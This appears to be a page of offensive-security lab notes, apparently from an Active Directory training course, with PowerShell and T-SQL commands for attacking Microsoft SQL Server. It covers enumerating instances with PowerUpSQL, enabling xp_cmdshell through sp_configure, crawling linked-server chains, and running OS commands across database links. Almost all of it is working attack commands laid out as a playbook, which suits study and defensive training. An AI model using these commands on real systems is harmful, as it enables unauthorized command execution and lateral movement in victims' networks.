 **1. Enumeration:**
```powershell

# Discovery (SPN Scanning)
Get-SQLInstanceDomain

# Check accessibility for current user on found instances
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Getting more information on accessible Instances 
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose

# Executing a query on accessible SQL Server:
Get-SQLQuery -Instance dcorp-mgmt -Query "select @@version as version"

# If we have SysAdmin role it's good!
# because Sysadmin role can configure "Command Execution" feature (disabled by default)
# Otherwise we need to find a way to get more privileged role one MS SQL
Get-SQLQuery -Instance dcorp-mgmt -Query "EXEC sp_configure 'show advanced options', 1"
Get-SQLQuery -Instance dcorp-mgmt -Query " GO"
Get-SQLQuery -Instance dcorp-mgmt -Query "RECONFIGURE"
Get-SQLQuery -Instance dcorp-mgmt -Query "GO"
Get-SQLQuery -Instance dcorp-mgmt -Query "EXEC sp_configure 'xp_cmdshell', 1"
Get-SQLQuery -Instance dcorp-mgmt -Query "GO"
Get-SQLQuery -Instance dcorp-mgmt -Query "RECONFIGURE"
Get-SQLQuery -Instance dcorp-mgmt -Query "GO"

# Sysadmin role can configure "command Execution" feature
Get-SQLQuery -Instance dcorp-mgmt -Query "select @@version as version"



```

**2. Database Links:**
```powershell
# Database Links allows a SQL Server to access data provided by another source (another SQL Server or OLE DB data source)
# IN case of links to a SQL Server, ot's possibile to execute stored procedure across the link
# Links works across forest trust

# Enumerating Database Links
# This also inform if rpcout is enabled (by default it's not
Get-SQLServerLink -Instance dcorp-mssql -Verbose

# Or using a direct query on the SQL Server:
select * from master..sysservers

# Enumerating Database Links chains (if there are "transitive" links between three servers
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose

# or specifying a link (it can be also transitive)
select * from openquery("dcorp-sql1",'select * from master..sysservers')
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt","select * from master..sysservers")')

# Executeing a store procedure on a linked server:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"

# Executing commands across Database LInks
Get-SQLServerLinkCrawl -Instance dcorp-mssql.corp.corporate.local -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget  eu-sql

```